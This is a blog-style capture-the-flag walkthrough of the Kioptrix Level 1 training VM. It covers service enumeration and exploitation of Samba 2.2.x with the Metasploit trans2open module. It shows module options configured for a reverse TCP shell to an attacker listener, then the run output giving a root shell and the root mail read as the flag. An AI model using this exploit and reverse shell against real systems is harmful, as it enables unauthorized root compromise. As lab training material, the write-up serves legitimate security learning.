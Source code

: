 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 1 Walkthrough"
date:   2013-12-19 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix Level 1 Walkthrough, CTF solution for Kioptrix Level 1.'
categories: [walkthroughs]
tags:
- Kioptrix
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 2.9p2 (protocol 1.99)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 1.3.20 ((Unix)</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 111</code></p></pc>
           </td>
           <td>
              <pc><p>RPC Bind</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 139</code></p></pc>
           </td>
           <td>
              <pc><p>netbios-ssn</p></pc>
           </td>
           <td>
               <pc><p>Samba</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
              <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 1.3.20 ((Unix)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>


## Samba Enumeration

Based on the age of the system other services, I know from exeperience that SAMBA is likely vulnerable to the trans2open exploit.


{% highlight bash %}


use exploit/linux/samba/trans2open

msf exploit(trans2open) > show options

Module options (exploit/linux/samba/trans2open):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.221.156  yes       The target address
   RPORT  139              yes       The target port


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.221.139  yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


{% endhighlight %}


## Metasploit Exploit

{% highlight bash %}
msf exploit(trans2open) > run

[*] [2015.12.20-21:05:39] Started reverse handler on 192.168.221.139:4444
[*] [2015.12.20-21:05:40] Trying return address 0xbffffdfc...
[*] [2015.12.20-21:05:41] Trying return address 0xbffffcfc...
[*] [2015.12.20-21:05:42] Trying return address 0xbffffbfc...
[*] [2015.12.20-21:05:43] Trying return address 0xbffffafc...
[*] Command shell session 1 opened (192.168.221.139:4444 -> 192.168.221.156:1025) at 2015-12-20 21:05:44 -0500


^Z
Background session 1? [y/N]  N

id
uid=0(root) gid=0(root) groups=99(nobody)
hostname
kioptrix.level1
^Z
Background session 1? [y/N]  y
{% endhighlight %}


## Root Flag


Root Flag

{% highlight bash %}
sh-2.05# cd /var/spool/mail
cd /var/spool/mail
sh-2.05# ls
ls
harold
john
nfsnobody
root
sh-2.05# cat root   
cat root
From root  Sat Sep 26 11:42:10 2009
Return-Path: <root@kioptix.level1>
Received: (from root@localhost)
    by kioptix.level1 (8.11.6/8.11.6) id n8QFgAZ01831
    for root@kioptix.level1; Sat, 26 Sep 2009 11:42:10 -0400
Date: Sat, 26 Sep 2009 11:42:10 -0400
From: root <root@kioptix.level1>
Message-Id: <200909261542.n8QFgAZ01831@kioptix.level1>
To: root@kioptix.level1
Subject: About Level 2
Status: O

If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...
{% endhighlight %}
